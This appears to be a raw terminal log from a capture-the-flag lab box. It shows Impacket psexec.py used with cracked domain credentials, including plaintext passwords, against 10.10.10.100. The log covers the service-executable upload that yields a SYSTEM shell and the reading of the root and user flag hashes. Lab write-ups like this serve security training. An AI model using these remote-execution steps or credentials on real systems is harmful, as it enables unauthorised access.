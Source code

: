 https://stackoverflow.com/questions/17217476/how-do-i-display-a-text-file-content-in-cmd

──(root㉿kali)-[~]
└─# psexec.py svc_tgs:GPPstillStandingStrong2k18@10.10.10.100 
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.100.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'Replication' is not writable.
[-] share 'SYSVOL' is not writable.
[-] share 'Users' is not writable.



──(root㉿kali)-[~]
└─# psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file OPCTQagZ.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service TFpk on 10.10.10.100.....
[*] Starting service TFpk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd ..
cd
C:\Windows>cd ..
'cdcd' is not recognized as an internal or external command,
operable program or batch file.
 

Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 15BB-D59C

 Directory of C:\Users\Administrator\Desktop

21/01/2021  07:49 úú    <DIR>          .
21/01/2021  07:49 úú    <DIR>          ..
24/07/2023  01:42 ºú                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   1.138.446.336 bytes free

C:\Users\Administrator\Desktop>more root.txt    
16cf51593ea5fafcbc3a1a062fee943b

C:\Users\Administrator\Desktop>


C:\Users\SVC_TGS>cd Desktop
 
C:\Users\SVC_TGS\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 15BB-D59C

 Directory of C:\Users\SVC_TGS\Desktop

21/07/2018  06:14 úú    <DIR>          .
21/07/2018  06:14 úú    <DIR>          ..
24/07/2023  01:42 ºú                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   1.138.446.336 bytes free

C:\Users\SVC_TGS\Desktop>type user.txt
5e428c02cbd4c7fbf50c19b13af90588

C:\Users\SVC_TGS\Desktop>

